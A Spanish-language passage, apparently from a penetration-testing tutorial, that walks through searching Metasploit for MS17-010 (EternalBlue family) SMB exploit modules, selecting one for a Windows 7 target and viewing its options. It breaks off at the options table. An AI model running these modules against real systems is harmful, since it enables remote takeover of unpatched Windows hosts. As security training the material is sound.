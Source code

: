 Iniciaríamos `msfconsole` y buscaríamos este nombre exacto de exploit.

### MSF - Search for MS17_010

```r
msf6 > search ms17_010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
```

A continuación, queremos seleccionar el módulo adecuado para este escenario. Del escaneo `Nmap`, hemos detectado el servicio SMB que se ejecuta en la versión `Microsoft Windows 7 - 10`. Con algún escaneo adicional del SO, podemos suponer que esto es un Windows 7 ejecutando una instancia vulnerable de SMB. Luego procedemos a seleccionar el módulo con el `index no. 2` para probar si el objetivo es vulnerable.

---
## Using Modules

Dentro de los módulos interactivos, hay varias opciones que podemos especificar. Estas se utilizan para adaptar el módulo de Metasploit al entorno dado. Porque en la mayoría de los casos, siempre necesitamos escanear o atacar diferentes direcciones IP. Por lo tanto, requerimos este tipo de funcionalidad para permitirnos establecer nuestros objetivos y ajustarlos. Para verificar qué opciones deben configurarse antes de que el exploit pueda enviarse al host objetivo, podemos usar el comando `show options`. Todo lo que se necesita configurar antes de que ocurra la explotación tendrá un `Yes` en la columna `Required`.

### MSF - Select Module

```r

<SNIP>

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  exploit/windows/smb/ms17_010_psexec   2017-03-14       normal  Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   1  auxiliary/admin/smb/ms17_010_command  2017-03-14       normal  No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   
   
msf6 > use 0
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec): 

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
```